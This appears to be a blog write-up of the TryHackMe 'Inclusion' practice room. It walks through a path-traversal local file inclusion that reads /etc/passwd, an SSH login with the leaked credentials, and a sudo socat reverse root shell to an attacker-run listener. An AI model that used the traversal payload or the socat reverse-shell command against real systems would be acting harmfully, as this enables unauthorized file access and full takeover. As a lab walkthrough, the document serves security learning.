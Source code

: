 ```yaml
---
title: TryHackMe Inclusion
date: 2020-12-05
categories: [TryHackMe]
thumbnail: /assets/img/thm/inclusion/inclusion.png
excerpt: We use an LFI to gain initial access, then use a socat PrivEsc.
tags: [LFI,socat,SSH]
---
```


# TryHackMe Inclusion
This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability. 

## Nmap

![nmap](nmap.png)

We have only 2 ports open `port 22` and `port 80`

## Website

![website](website.png)

Clicking on one of the articles we can see in the URL `article?name=lfiattack` 
This is an indication of file inclusion.

An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even Cross-site Scripting (XSS). [LFI](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)

As we can see, switching `article?name=lfiattack` to be `article?name=../../../../etc/passwd`
![LFI](lfi.png)

It seems we have credentials of `falconfeast:rootpassword`. The only way we can use these credentials is through SSH. So let's try that

## SSH

It seems those credentials work.
![ssh](ssh.png)

Your user flag is right in your current working directory.

## Root

Let's check to see what we can run as sudo with no password
Running `sudo -l`

![sudo](sudo.png)

Looking up `socat` on [GTFOBins](https://gtfobins.github.io/gtfobins/socat/#sudo)

We can run `socat file:`tty`,raw,echo=0 tcp-listen:1234` on our host machine to set up a listener. On the target machine, we'll use what they provided `sudo -E socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane`.

As you can see, we now have root access.

![root](root.png)

Your root flag is place in `/root`.